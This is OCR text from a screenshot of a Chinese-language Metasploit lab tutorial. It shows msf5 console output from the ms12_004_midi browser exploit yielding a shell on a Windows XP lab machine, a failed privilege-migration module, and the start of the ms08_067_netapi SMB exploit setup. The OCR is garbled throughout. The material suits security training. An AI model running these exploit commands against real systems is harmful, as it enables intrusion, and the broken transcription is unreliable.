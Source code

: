 exploit/windows/browser/ms12_004_midi
2012-01-10
88 tPolvEvent Hean Overflow
节：1／1 设查值：5.7厘米 行：5列：9 字数：44 拼写检查 文档校对
2目2の 

Shell No.1
Shell No.1 文件（F）
动作（A）编辑（E）
查看（V）
帮助（H） Shell No.1
hongke@kall:- /manage/priv_migrate' 吕
SESSION may not be compatible with this module.
Post failed: NoMethodError undefined method 'sys' for #<Msf:: Sessions :: CommandShellWindows:0x00007fb10959 4d60>
Call stack: 奠
/usr/share/metasploit-framework/modules/post/windows/manage/priv_migrate.rb:44:in `run' msf5 exploit(windows/browser/ms12_004_midi)> sessions
Active sessions
Name
Type
Information PI
Connection --
1
shell x86/windows
Microsoft Windows XP [Version 5.1.2600] (C) Copyright 1985-2001 Microsoft Cor. ..
192.168.152.128:6666 → 192.168.152.140:1036 (192.168.152.140) msf5 exploit(windows/browser/ms12_004_midi)> sessions -i 1
[*] Starting interaction with 1...
I 

XP Professional-VMware Workstation
首页
板売模板
35.Metasploit:.docx
36．Metasploit．etasploit生成后门
37．Metasploit：生成Android■门 hangkeketang
三文件
开发工具
特色功能
Q查找
已间步·＆协作分享
:
··
AaBbC AaBbCcDc
AaBbCcD AaBbCeDd 延庆
B
标？4 HTML..
普通（网站） 默认段...
新样式
文極助手 文字工具
查找慧换·选择 Metasploit：漏洞提权
实验靶机：IWindows xp IP地址：192.168.152.140 提权的条件，必须先有一个会话
Windows xp
提权
esf5>use exploit/windows/smb/ms08_067_netapi
asf5 exploit(indows/smh/ms_67_tap)>show options Module options(exploit/windows/smb/ms08_067_netapi): Name
Current Setting Required Description （大））
（大） C00
RHOSTS
yes
The target host(s),range CIDR identifier, or hosts file with syntax 'file:<path>' RPORT
445